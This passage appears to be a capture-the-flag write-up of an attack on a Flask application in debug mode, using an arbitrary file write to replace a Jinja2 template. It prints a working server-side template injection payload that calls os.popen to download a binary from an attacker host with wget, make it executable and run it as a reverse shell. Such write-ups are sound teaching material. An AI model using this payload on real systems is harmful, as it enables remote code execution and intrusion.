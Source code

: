 ```shell
echo "test" > test.txt
```

[![](/assets/image/attachments/Pasted&#32;image&#32;20220602195921.png)](/assets/image/attachments/Pasted&#32;image&#32;20220602195921.png){:.glightbox}

[![](/assets/image/attachments/Pasted&#32;image&#32;20220602195947.png)](/assets/image/attachments/Pasted&#32;image&#32;20220602195947.png){:.glightbox}

We have what we need for RCE now. Debug mode means that files will be automatically reloaded upon being changed. So we may overwrite a template with a malicious version to allow code execution through Jinja2.

Steps:
1. arbitrary write vulnerability
2. write a template success.html to `/app/app/templates/success.html`
3. load our template with SSTI RCE in it

I used success.html from the source code and included my payload [found here](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) 

```html 

...SNIP

<button class="btn btn-success" type="button" id="btnCopy">

 {{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('wget <MYIP>:9090/rev && chmod +x rev && ./rev')['read']()}}

</button>

...SNIP


```
